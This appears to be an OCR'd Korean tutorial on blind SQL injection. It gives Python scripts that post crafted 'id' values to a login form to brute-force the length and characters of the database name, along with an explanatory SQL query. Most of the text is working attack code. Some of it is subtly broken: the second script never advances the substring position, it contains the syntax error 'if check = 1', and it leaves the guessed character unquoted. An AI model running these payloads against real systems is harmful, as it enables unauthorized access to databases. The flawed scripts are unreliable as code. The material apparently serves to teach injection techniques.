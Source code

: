 ### __database(db) length 브루트포스 script__

```python
import requests
# requests 모듈 import
for length in range(1,100):
    #length 브루트 포스 숫자 생성
    data = {
        'id':f"' or length(database())={length}",
        # database() 길이 구하는 스크립트
        'pw':'No Value'
        #아무런 값
    }

    Urlrequest = requests.post(Url, data=data)
    #post 방식으로 url 에 data 전송

    if Urlrequest.text.find("Login succee!") > 0:
        # 만약에 쿼리가 참이라면 login succee! 감지후 
        print("database length :",length)
        #출력한다음 for 밖으로 나오기
        break
```

## database name 브루트포스

```sql
Mysql database name guess

SELECT * FROM member WHERE id='' or substr(database(),1,1)=0~z--'' and pw=''

-> substr(database(),1,1) 로 데이터베이스(db) 추측
```

### database 브루트포스 script

```python
import requests

check = 1
for dblength in range(1,100):
    for i in range(33,122):
        data = {
            'id':f"' or substr(database(),1,1)={chr(i)}--'",
            'pw':'No Value'
        }
        Urlrequest = requests.post(Url, data=data)

        if Urlrequest.text.find("Login succee!") > 0:
            print(chr(i),end='')
            check = 0
            break
    if check = 1:
        break
    check = 1
```
